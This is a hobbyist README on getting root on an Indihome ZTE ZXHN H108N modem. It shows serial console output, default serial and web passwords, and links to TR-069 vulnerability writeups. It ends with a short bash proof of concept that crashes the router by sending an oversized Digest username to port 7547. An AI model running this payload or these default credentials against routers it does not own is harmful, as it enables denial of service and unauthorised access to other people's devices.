

# Oprek Modem Indihome Huawei ZXHN H108N

Goal:

- [ ] Gain root access (not yet works)
- [ ] Make it as Access Point, WAN From ethernet (not yet works)


If you have Broadcom version, you can use OpenWRT:
https://openwrt.org/toh/zte/zxhnh108n

This device is Ralink chipset, No root access

## Serial Connection

No root access here.



Password for Serial: theworldinyourhand

for web login: user: support, pwd: theworldinyourhand

**Some Information:**

```
ZTE> sys version

 RAS version: ZXHN H108NV4.0.1a_ZRQ_ID_D67                                     
 System   ID: $2.12.186.0(G94.BY.4)3.20.39.20  20140909_v004  [Sep  9 2014 10:12:52]
 romRasSize: 1664518 
 system up time:     0:10:20 (f273 ticks)
 bootbase version: VTC_SPI_8M1.16 |  2012/12/26

ZTE> sys atsh

RAS version            : ZXHN H108NV4.0.1a_ZRQ_ID_D67                                    
romRasSize             : 1664518
bootbase version       : VTC_SPI_8M1.16 |  2012/12/26
Product Model          : ZXHN H108N
Serial Number          : ZTEERQCG5V02440
MAC Address            : 343759D9B8D0
Default Country Code   : FF
Boot Module Debug Flag : 00
RomFile Version        : 16
RomFile Checksum       : 7076
RAS F/W Checksum       : 9605
SNMP MIB level & OID   : 050000000100000002000000030000000400000005
Main Feature Bits      : 86
Other Feature Bits     :
93 17 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 13 00 00 00

ZTE> sys feature

IPX: yes
IP ONLY: no
AUI: no
AB ADAPTER: no
IDSL ONLY: no
IDSL: no
INTERNAL HUB: no
VLAN_8021Q[web]: no
PKT QoS[web]: no
ACL[web]: no
Filter[web]: no
ADSL[web]: yes
USB[web]: no
Firewall[web]: no
Reverse ETH Ports[web]: no
Half Bridge[web]: no
dy.fi DNS: yes
DDNS: yes
tr069: yes

```

## Rooting

- Activate uPNP and ACS

**Vulnerabilities:**

- https://sudonull.com/post/59881-Too-many-cooks-or-hacking-the-Internet-with-TR-069
- Maybe work? https://www.exploit-db.com/exploits/27044

**Crash/Reboot PoC:**

``` bash
repeat(){ for i in {1..600}; do echo -n "$1"; done; }
curl -H "Authorization: Digest username=$(repeat x)" 192.168.1.1:7547/tr069

```